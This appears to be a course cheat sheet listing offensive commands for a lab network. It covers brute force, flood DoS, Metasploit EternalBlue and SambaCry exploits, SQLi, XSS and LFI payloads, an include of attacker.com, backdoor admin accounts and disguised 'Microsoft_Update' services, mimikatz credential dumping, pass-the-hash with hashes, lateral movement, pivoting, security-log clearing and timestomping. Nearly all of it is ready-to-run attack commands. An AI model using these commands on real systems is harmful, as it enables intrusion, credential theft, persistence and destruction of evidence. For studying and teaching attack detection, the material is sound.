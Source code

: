 # List command - Offensive & Detection Course
List command that used in Offensive &amp; Detection Course

# Service Exploitation
## scan network & VA
nmap -P0 <IP>  
openvas  
nessus  
  
## bruteforcing
hydra-wizard  
hydra -l root -P /usr/share/wordlists/rockyou.txt -u  -s 22  <IP> ssh  
  
## DoS
TCP(SYN Flood): hping3 -S -L -w --flood -p 80 <TARGET>  
UDP(Volume Based Attack) : hping3 --UDP --flood -p 80 <TARGET>  
  
## Sambacry
(metasploit) exploit/linux/samba/is_known_pipename  
(msf) set RHOST 192.168.210.104  
(msf) exploit  

## Eternalblue
(metasploit) exploit/windows/smb/ms17_010_eternalblue  
(msf) set RHOST 192.168.210.102  
(msf) exploit  

# Web Application Attack
## SQL Injection
') union select 1,email,password,4,5,6,7 from users;--  
## XSS
<<script>alert("XSS")</script>script>alert("XSS")<</script>/script>  
## Local File Inclusion
../../../../../../../../../../etc/passwd  
## LFI&RFI&SSRF
render.php?include=http://attacker.com  

# Lateral Movement
## normal reconnaissance
tasklist  
systeminfo  
whoami  
whoami /priv  
## Bypass UAC & Privilege Escalation
use exploit/windows/local/bypassuac  
use exploit/windows/local/bypassuac_eventvwr  
set SESSION <id>  
exploit  
## net command
net localgroup Users  
net localgroup Administrators  
net user sservice p@ssw0rd /add  
net localgroup administrators sservice /add  
## Install new service  
sc create microsoft_update binpath= "cmd /K start c:\Windows\Temp\backdoor.exe" start= auto error= ignore /c C:\Windows\Temp\backdoor.exe  
sc create Microsoft_Update binpath= "cmd /K start C:\Users\john.SECPLAYGROUND\Downloads\update.exe" start= "auto" DisplayName= "Windows Automatic updates"  
## Enable Remote Desktop  
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v AllowTSConnections /t REG_DWORD /d 1  
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0  
netsh firewall set service remoteadmin enable  
netsh firewall set service remotedesktop enable  
net start termservice  
sc config termservice start= auto  
## Mimikatz
wget "https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20171220/mimikatz_trunk.zip"
unzip mimikatz_trunk.zip  
(msf) upload /opt/x64/mimikatz.exe .  
(msf) upload /opt/x64/mimidrv.sys .  
(msf) upload /opt/x64/mimilib.dll .  
(msf) session -i <id>  
mimikatz.exe  
(mimikatz) privilege::debug  
(mimikatz) sekurlsa::logonPasswords full  

## Pass-the-hash
git clone https://github.com/byt3bl33d3r/pth-toolkit  
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
pth-winexe -U hash //IP cmd  
./pth-winexe -U john%'921988ba001dc8e14a3b108f3fa6cb6d:e19ccf75ee54e06b06a5907af13cef42' //192.168.210.102 cmd.exe  
sc query winexesvc  
sc start winexesvc  
./pth-winexe -U john%'921988ba001dc8e14a3b108f3fa6cb6d:e19ccf75ee54e06b06a5907af13cef42' --system //192.168.210.102 cmd.exe  
xfreerdp /u:user /d:domain /pth:hash /v:IPAddress  

## WMIC
wmic useraccount list /format:list  
wmic group list brief  
wmic path win32_process call create "calc.exe"  
wmic /node:computername /user:domainname\username path win32_process call create "**empire launcher string here**"  
wmic /node:192.168.255.10 /user:"secplayground\john" path win32_process call create "calc.exe"  
wmiexec.py -debug john:P@ssw0rd@192.168.210.102  

## Pivoting network
(meterpreter) run autoroute -s 192.168.255.0/24  
(meterpreter) run post/windows/gather/arp_scanner rhosts=192.168.255.0/24  
(msf) use auxiliary/server/socks4a  
(msf) set SRVHOST 0.0.0.0  
(msf) set SRVPORT 9999  
(msf) exploit  
Edit /etc/proxychains.conf  
proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse 192.168.255.10  
proxychains wmiexec.py -debug john:P@ssw0rd@192.168.255.10  

## Delete all system log
wevtutil cl security  

## Winrm
PS> Enable-PSRemoting -Force  
winrm quickconfig  

## schtask - create new schedule task
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System  
schtasks /run /tn foobar /S host  
delete schedule task  
schtasks /F /delete /tn foobar /S host  

## Timestomp
(meterpreter) timestomp mimikatz.exe -v  

# Resource::
- https://www.botconf.eu/wp-content/uploads/2017/12/2017_tomonaga-muda-Hunting-Attacker-Activities.pdf
- https://www.slideshare.net/votadlos/hunting-lateral-movement-in-windows-infrastructure
- https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#net-user-domain
